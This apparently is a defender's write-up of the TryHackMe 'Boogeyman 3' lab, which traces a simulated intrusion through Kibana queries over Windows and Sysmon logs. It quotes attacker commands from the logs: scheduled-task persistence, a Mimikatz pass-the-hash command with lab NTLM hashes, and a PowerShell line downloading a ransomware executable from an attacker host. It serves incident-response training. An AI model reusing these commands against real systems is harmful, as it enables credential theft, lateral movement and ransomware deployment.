# Boogeyman 3

## Overview

Boogeyman 3 is a TryHackMe investigation challenge focused on analysing a multi-stage compromise using Elastic/Kibana.

The investigation starts with a malicious attachment opened by a user and develops into persistence, command-and-control communication, privilege escalation, credential dumping, lateral movement, domain compromise, and finally an attempt to deploy ransomware.

The goal of this investigation was not only to identify individual indicators, but to reconstruct the attack chain using Windows, Sysmon, and PowerShell telemetry.

---

## Tools Used

- Elastic / Kibana
- KQL (Kibana Query Language)
- Windows Event Logs
- Sysmon
- PowerShell Script Block Logging

---

## Investigation

### 1. Initial Payload Execution

The investigation started by searching for the suspicious attachment mentioned in the scenario.

```kql
process.command_line : *ProjectFinancialSummary*
```

This revealed that `mshta.exe` executed the malicious HTA file:

```text
D:\ProjectFinancialSummary_Q3.pdf.hta
```

The process responsible for executing the initial payload had PID:

```text
6392
```



This identified `mshta.exe` as the starting point of the malicious process chain.

---

### 2. Payload Implantation

After identifying the PID of the initial process, I searched for processes spawned by it.

```kql
process.parent.pid : 6392
```

One of the child processes was `xcopy.exe`, which copied a suspicious file named `review.dat` into the user's temporary directory.

```text
"C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat
```



This showed that the first-stage payload attempted to implant another file on the compromised machine.

---

### 3. Execution of the Implanted File

I then searched for activity involving `review.dat`.

```kql
process.command_line : *review.dat*
```

The implanted file was executed through `rundll32.exe`:

```text
"C:\Windows\System32\rundll32.exe" D:\review.dat,DllRegisterServer
```



Using `rundll32.exe` allowed the attacker to execute the malicious DLL-like payload through a legitimate Windows binary.

---

### 4. Persistence

PowerShell telemetry showed that the attacker created a scheduled task.

```kql
powershell.file.script_block_text : (*ScheduledTask* OR *schtasks*)
```

The relevant PowerShell commands included:

```powershell
$A = New-ScheduledTaskAction -Execute 'rundll32.exe' -Argument 'C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat,DllRegisterServer';
$T = New-ScheduledTaskTrigger -Daily -At 06:00;
...
Register-ScheduledTask Review -InputObject $D -Force;
```



The scheduled task was named:

```text
Review
```

It was configured to execute the implanted payload using `rundll32.exe`, providing persistence on the compromised system.

---

### 5. Command and Control Communication

The malicious `rundll32.exe` activity was associated with two process IDs:

```text
3680
4672
```

I used Sysmon network connection events to investigate their network activity.

```kql
winlog.event_id : 3 AND (process.pid : 3680 OR process.pid : 4672)
```

The malicious process repeatedly connected to:

```text
165.232.170.151:80
```



This IP address and port were identified as the command-and-control infrastructure used by the implanted payload.

---

### 6. Privilege Enumeration and UAC Bypass

To understand what the malicious process did next, I investigated the child processes created by the active `rundll32.exe` process.

```kql
process.parent.pid : 4672
```

Several interesting commands appeared:

```text
whoami /all
whoami /groups
net users
net localgroup administrators
```

The same process also spawned:

```text
fodhelper.exe
```



The attacker first enumerated the current user's privileges and group memberships and then used `fodhelper.exe` as part of a UAC bypass.

A PowerShell process spawned through `fodhelper.exe` was running with a **High** integrity level, confirming successful privilege elevation.

---

### 7. Credential Dumping Tool Download

After obtaining elevated privileges, the attacker downloaded Mimikatz.

Searching PowerShell Script Block logs for GitHub activity:

```kql
powershell.file.script_block_text : *github*
```

revealed:

```powershell
iwr https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -outfile mimi.zip
```



The archive was subsequently extracted and Mimikatz was used for credential access.

---

### 8. Credential Access and Pass-the-Hash

Searching the PowerShell logs for Mimikatz activity:

```kql
powershell.file.script_block_text : (*mimikatz* OR *mimi*)
```

revealed several credential-related commands.

One important command was:

```text
.\mimikatz.exe "sekurlsa::pth /user:itadmin /domain:QUICKLOGISTICS /ntlm:F84769D250EB95EB2D7D8B4A1C5613F2 /run:powershell.exe" "exit"
```



The credentials used were:

```text
Username: itadmin
NTLM: F84769D250EB95EB2D7D8B4A1C5613F2
```

The `sekurlsa::pth` command indicates a Pass-the-Hash technique, where the NTLM hash is used instead of the plaintext password to create a process under another user's authentication context.

---

### 9. Remote Share Enumeration and File Access

Further investigation showed PowerShell activity related to domain and share enumeration.

The attacker loaded PowerView functionality and executed commands such as:

```text
Get-DomainUser
Invoke-ShareFinder
```

A later process event showed access to a PowerShell script located on a remote share:

```text
\\WKSTN-1327.quicklogistics.org\ITFiles\IT_Automation.ps1
```



The file accessed from the remote share was:

```text
IT_Automation.ps1
```

This activity showed that the attacker was actively exploring resources accessible using the compromised credentials.

---

### 10. Lateral Movement

The investigation also revealed the use of explicit credentials with PowerShell remoting.

PowerShell Script Block logging showed a `PSCredential` object being created and used with `Invoke-Command` against another machine.



The remote system involved in this activity was:

```text
WKSTN-1327
```

Additional process telemetry on the remote host showed `whoami.exe` being launched by:

```text
wsmprovhost.exe
```



`wsmprovhost.exe` is associated with Windows Remote Management / PowerShell remoting, which helped connect this activity to remote command execution.

---

### 11. Attacker Host Identification

During the investigation, telemetry also allowed the attacker's machine involved in the intrusion to be identified.



This provided another useful indicator when reconstructing the lateral movement activity across the environment.

---

### 12. Additional Credential Dumping

After gaining access to another system, the attacker continued using Mimikatz to obtain additional credentials.



The newly obtained Administrator NTLM hash was:

```text
administrator:00f80f2538dcb54e7adc715c0e7091ec
```

The attacker later used this credential material with Mimikatz Pass-the-Hash functionality.

---

### 13. Domain Controller Compromise and DCSync

With privileged access established, the attacker attempted to obtain domain credentials using DCSync.

I searched specifically for Mimikatz processes containing the DCSync command:

```kql
process.name : "mimikatz.exe" AND process.command_line : *dcsync*
```

The results included commands targeting the domain Administrator account as well as another domain account.



The additional account targeted by the attacker was:

```text
backupda
```

DCSync represents a significant escalation in the intrusion because the attacker was now attempting to retrieve domain credential material rather than credentials belonging only to the initially compromised workstation.

---

### 14. Ransomware Download

The final stage of the observed attack involved downloading a ransomware executable.

Searching PowerShell Script Block logs for `iwr` activity revealed:

```powershell
iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile ransomboogey.exe
```

Another event showed the binary being written into the compromised user's directory and executed.



The ransomware payload was downloaded from:

```text
http://ff.sillytechninja.io/ransomboogey.exe
```

At this point, the intrusion had progressed from an initial malicious attachment to attempted ransomware execution.

---

## Attack Chain

The investigation allowed the attack to be reconstructed as:

```text
Malicious HTA Attachment
        ↓
mshta.exe
        ↓
review.dat Implantation
        ↓
rundll32.exe Execution
        ↓
Scheduled Task Persistence
        ↓
C2 Communication
        ↓
Privilege Enumeration
        ↓
fodhelper.exe UAC Bypass
        ↓
Mimikatz Download
        ↓
Credential Dumping
        ↓
Pass-the-Hash
        ↓
Share / Domain Enumeration
        ↓
Remote File Access
        ↓
PowerShell / WinRM Lateral Movement
        ↓
Additional Credential Dumping
        ↓
Domain Controller Access
        ↓
DCSync
        ↓
Ransomware Download
```

---

## Key Indicators

| Type | Indicator |
|---|---|
| Initial payload | `ProjectFinancialSummary_Q3.pdf.hta` |
| Implanted file | `review.dat` |
| Initial execution | `mshta.exe` |
| Payload execution | `rundll32.exe` |
| Persistence | Scheduled Task `Review` |
| C2 | `165.232.170.151:80` |
| UAC bypass | `fodhelper.exe` |
| Credential dumping | `mimikatz.exe` |
| Compromised account | `itadmin` |
| Remote host | `WKSTN-1327` |
| Remote file | `IT_Automation.ps1` |
